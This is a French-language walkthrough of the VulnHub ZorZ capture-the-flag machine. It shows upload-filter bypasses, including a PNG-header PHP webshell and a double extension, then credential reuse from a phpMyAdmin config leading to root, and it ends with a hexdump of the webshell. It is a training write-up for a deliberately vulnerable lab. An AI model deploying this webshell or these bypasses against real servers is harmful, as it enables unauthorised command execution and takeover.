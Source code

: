 # Solution du CTF ZorZ de VulnHub

[TopHatSec: ZorZ](https://vulnhub.com/entry/tophatsec-zorz,117/) fait partie de la même série que le CTF [Freshly](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Freshly%20de%20VulnHub.md). On va potentiellement rester sur notre fin aussi car il semble qu'il n'y ait rien prévu pour l'escalade de privilèges... mais sait-on jamais.

> This machine will probably test your web app skills once again.
> 
> There are 3 different pages that should be focused on (you will see!) If you solve one or all three pages, please send me an email and quick write up on how you solved each challenge.
> 
> Your goal is to successfully upload a webshell or malicious file to the server.
> 
> If you can execute system commands on this box, thats good enough!!! I hope you have fun!

On a une page d'index avec un formulaire d'upload. Je lance tout de même `feroxbuster` qui me trouve d'autres ressources :

```
301        9l       28w      318c http://192.168.56.90/javascript
301        9l       28w      318c http://192.168.56.90/phpmyadmin
403       10l       30w      293c http://192.168.56.90/server-status
200       15l       31w      367c http://192.168.56.90/
301        9l       28w      314c http://192.168.56.90/jQuery
301        9l       28w      316c http://192.168.56.90/uploads2
301        9l       28w      316c http://192.168.56.90/uploads3
200       15l       31w      367c http://192.168.56.90/index.html
200       16l       38w      457c http://192.168.56.90/index2.html
200        4l       10w       76c http://192.168.56.90/uploader.php
```

Manuellement et par logique je trouve aussi le dossier `uploads1` à la racine.

J'utilise généralement un shell PHP qui contient juste un entête PNG avec ensuite un appel à `system()`. Ce n'est pas une image valide mais le fichier peut passer quelques filtres.

Quoiqu'il en soit ici ça passe comme dans du beurre :

```
File is valid, and was successfully uploaded.

Here is some more debugging info:Array
(
    [upfile] => Array
        (
            [name] => shell.php
            [type] => application/x-php
            [tmp_name] => /tmp/phpeKXzw6
            [error] => 0
            [size] => 71
        )

)
```

Je retrouve mon shell dans le dossier `uploads1` et je peux par exemple faire exécuter la commande `id` :

`uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Le second formulaire d'upload semble plus restrictif :

> Success! image/png.Sorry, only JPG, JPEG, PNG & GIF files are allowed.Sorry, your file was not uploaded.

Je renomme seulement mon fichier en `shell.php.png` et là ça passe :

> Success! image/png.The file shell.php.png has been uploaded.

Il apprait dans `uploads2` et est bien interprété.

Le dernier formulaire d'upload est moins basique et se base sur jQuery. Quand on sélectionne le fichier ce dernier apparait d'abord en preview avec le protocole `data://` et il faut reclicker sur `upload` pour terminer.

Mon shell précédent s'upload sans difficultés bien qu'il rale un peu sur les dimensions de l'image.

Il est temps d'explorer le système.

`LinPEAS` me trouve un fichier de configuration `/etc/phpmyadmin/config-db.php` qui contient des identifiants :

```php
<?php
##
## database access settings in php format
## automatically generated from /etc/dbconfig-common/phpmyadmin.conf
## by /usr/sbin/dbconfig-generate-include
## Tue, 17 Feb 2015 20:54:38 -0500
##
## by default this file is managed via ucf, so you shouldn't have to
## worry about manual changes being silently discarded.  *however*,
## you'll probably also want to edit the configuration file mentioned
## above too.
##
$dbuser='phpmyadmin';
$dbpass='toor2600root';
$basepath='';
$dbname='phpmyadmin';
$dbserver='';
$dbport='';
$dbtype='mysql';
```

Le mot de passe fonctionne pour l'utilisateur `user` qui est admin car a toutes les autorisations sudo :

```
www-data@zorz:/tmp$ su user
Password: 
user@zorz:/tmp$ sudo -l
[sudo] password for user: 
Matching Defaults entries for user on zorz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User user may run the following commands on zorz:
    (ALL : ALL) ALL
user@zorz:/tmp$ sudo su
root@zorz:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Pour les curieux voici un hexdump de mon shell PHP :

```
00000000  89 50 4e 47 0d 0a 1a 0a  00 00 00 0d 49 48 44 52  |.PNG........IHDR|
00000010  00 3c 3f 70 68 70 0a 73  79 73 74 65 6d 28 24 5f  |.<?php.system($_|
00000020  47 45 54 5b 22 63 6d 64  22 5d 29 3b 0a 3f 3e 0a  |GET["cmd"]);.?>.|
```

*Publié le 2 janvier 2023*

